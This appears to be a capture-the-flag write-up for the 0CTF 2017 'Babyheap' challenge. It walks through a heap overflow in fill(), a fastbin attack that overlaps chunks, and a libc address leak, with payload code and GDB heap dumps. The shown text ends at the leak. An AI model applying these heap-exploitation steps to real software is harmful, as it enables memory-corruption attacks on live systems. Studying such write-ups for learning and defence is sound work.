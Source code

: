 ## 0CTF 2017 - Babyheap

This is another basic heap challenge from the 0CTF which I use some different way to leak the address(That's what we always need for a heap challenge)!

### Requirements

- Find the vulnerability(heap overflow in `fill()` function)
- Leak the libc address.
- Calculat the offset of the libc base address.
- Find the place to put the one_gadget address.
- Trigger!

### Leak the address in the libc

As a heap challenge with a given libc.so, what we allways need to do is too leak the address from the libc and calculate the offset to find the base address of libc. This is also same with this challenge from 0CTF. 

From [how2heap](https://github.com/shellphish/how2heap), this challenge is under `fastbin_dup_into_stack` which is the tech we gone use to leak the address from the heap. **But, at first, I must explain why we need to leak the address this way.** When the fastbin link list only has one chunk, there's no address will be set in the `FD` and `BK` because top of the free list of fastbin will be store in the `main_arena`. So, in this case, we need to cheat the `malloc()` to return a allocated small bin size chunk as a fastbin size chunk. After we get two pointers which both point to one chunk, we can free the small bin one and it will set the `FD` and `BK` for us. That's the thing we want to leak. 

First, we need to allocate five chunks(first three are fastbin size and other two are smallbin size). The reason why we need to allocate two small bins is that if we only allocate one, when we free it, it will consolidate with the top chunk.

```
alloc(0x10) #Index 0	<- Fastbin
alloc(0x10) #Index 1	<- Fastbin
alloc(0x10) #Index 2	<- Fastbin
alloc(0x80) #Index 3	<- Small bin
alloc(0x80) #Index 4	<- Small bin
```

```
0x557c24bb9000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x557c24bb9010:	0x0000000000000000	0x0000000000000000 <- 0's content
0x557c24bb9020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x557c24bb9030:	0x0000000000000000	0x0000000000000000 <- 1's content
0x557c24bb9040:	0x0000000000000000	0x0000000000000021 <- Index 2 
0x557c24bb9050:	0x0000000000000000	0x0000000000000000 <- 2's content
0x557c24bb9060:	0x0000000000000000	0x0000000000000091 <- Index 3
0x557c24bb9070:	0x0000000000000000	0x0000000000000000 <- 3's content
...
0x557c24bb90e0:	0x0000000000000000	0x0000000000000000
0x557c24bb90f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x557c24bb9100:	0x0000000000000000	0x0000000000000000 <- 4's content
0x557c24bb9110:	0x0000000000000000	0x0000000000000000
...
0x557c24bb9170:	0x0000000000000000	0x0000000000000000
```

Then, we will free the 2nd chunk then the 1st chunck(Index). This will give us a free list and in the 1st chunk, we can see the address of the 2nd chunk.

```
free(2)
free(1)
```

```
fastbins
0x20: 0x560c20963020 —▸ 0x560c20963040 ◂— 0x0
0x30: 0x0
Address layout in GDB: 
pwndbg> x/40gx 0x560c20963000
0x560c20963000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x560c20963010:	0x0000000000000000	0x0000000000000000
0x560c20963020:	0x0000000000000000	0x0000000000000021 <- Index 1 free
0x560c20963030:	0x0000560c20963040	0x0000000000000000 <- The address of the next free chunk in the free list
0x560c20963040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x560c20963050:	0x0000000000000000	0x0000000000000000
0x560c20963060:	0x0000000000000000	0x0000000000000091 <- Index 3
```

#### Fastbin attack

Third, because the `0x560c20963060` is the address of the 3rd chunk(Index) which is a small chunk, we need to cheat `malloc()` to allocate that chunk for us. What we gonne do is to `fill()` the 0th chunk and overflow the address in the free list from `0x560c20963040` to `0x560c20963060`. Then if we allocate same size memory from the fastbin, we can get `0x560c20963060` instead of `0x560c20963040`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p8(0x60)
fill(payload, 0)
alloc(0x10) #Index 1
```

```
fastbins
0x20: 0x55bab90d3060 ◂— 0x0 (Compare with the above linklist, 0x40 change to 0x60)
```

For now, we get the 1st(Index) chunk from the heap but we want to get the `0x560c20963060` as the fastbin. However, if we directly request `0x10` chunk, we cannot get the `0x560c20963060` because the size of it is `0x0000000000000091` which is `0x80`(-header). So, we need to use another overflow to change `0x0000000000000091` to `0x0000000000000021`.

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)
fill(payload, 1)
alloc(0x10) #Index 2 (All the payload is for this, we want a fastbin)
```
```
0x56058fc0b000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56058fc0b010:	0x0000000000000000	0x0000000000000000
0x56058fc0b020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56058fc0b030:	0x0000000000000000	0x0000000000000000
0x56058fc0b040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56058fc0b050:	0x0000000000000000	0x0000000000000000
0x56058fc0b060:	0x0000000000000000	0x0000000000000021 <- Index 3 & 2 (Used to be 91)
Index 3 is the smallbin(0x80), and index 2 is the fastbin(0x10)
...
0x56058fc0b0e0:	0x0000000000000000	0x0000000000000000
0x56058fc0b0f0:	0x0000000000000000	0x0000000000000091 <- Index 4
0x56058fc0b100:	0x0000000000000000	0x0000000000000000
...
0x56058fc0b160:	0x0000000000000000	0x0000000000000000
```

Aha, now we get two pointer point to same chunk. So, we can free the small bin one to return it to the unsorted bin. The libc will set the `FD` and `BK` for us. But, again we still need to control the size of the bin. This time, because we want the chunk to be a smallbin, we need to set the size back to `0x80` at first. Then! `Dump(2)`.(As a fastbin)

```
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x91)
fill(payload, 1)
free(3)
hex(dump(2))
```
```
0x56220cde1000:	0x0000000000000000	0x0000000000000021 <- Index 0
0x56220cde1010:	0x0000000000000000	0x0000000000000000
0x56220cde1020:	0x0000000000000000	0x0000000000000021 <- Index 1
0x56220cde1030:	0x0000000000000000	0x0000000000000000
0x56220cde1040:	0x0000000000000000	0x0000000000000021 <- Index 2 free
0x56220cde1050:	0x0000000000000000	0x0000000000000000
0x56220cde1060:	0x0000000000000000	0x0000000000000091 <- Index 3 & 2 free
0x56220cde1070:	0x00007fc036f48b78	0x00007fc036f48b78 <- That's what we want!!!!
...
0x56220cde10e0:	0x0000000000000000	0x0000000000000000
0x56220cde10f0:	0x0000000000000090	0x0000000000000090 <- Index 4(P is not set)
0x56220cde1100:	0x0000000000000000	0x0000000000000000
...
0x56220cde1170:	0x0000000000000000	0x0000000000000000
```
